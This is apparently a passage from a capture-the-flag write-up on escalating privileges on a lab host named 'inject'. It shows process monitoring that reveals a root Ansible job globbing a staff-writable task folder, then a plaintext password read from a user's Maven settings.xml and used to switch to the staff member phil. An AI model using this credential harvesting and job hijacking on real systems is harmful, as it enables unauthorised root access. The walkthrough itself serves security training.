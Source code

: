 Starting pspy64 there's an ansible job that triggers every 2 min, that's probably our golden ticker as it globs every file in the task folder 
```
2023/03/13 18:44:01 CMD: UID=0    PID=77819  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

`root` and the `staff` group has access to write there
```bash
frank@inject:~$ ls -la /opt/automation/tasks
total 12
drwxrwxr-x 2 root staff 4096 Mar 13 18:52 .
drwxr-xr-x 3 root root  4096 Oct 20 04:23 ..
-rw-r--r-- 1 root root   150 Mar 13 18:52 playbook_1.yml
```

We don't have staff access, but phil does, so we need to gain access to phil 
```bash
frank@inject:~$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
frank@inject:~$ id phil
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

The password for phil is in the maven settings file in frank's directory:  
```bash
frank@inject:~/.m2$ pwd
/home/frank/.m2
frank@inject:~/.m2$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Now that we're phil we should be able to write there
```bash
frank@inject:~$ su - phil
Password:
phil@inject:~$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```
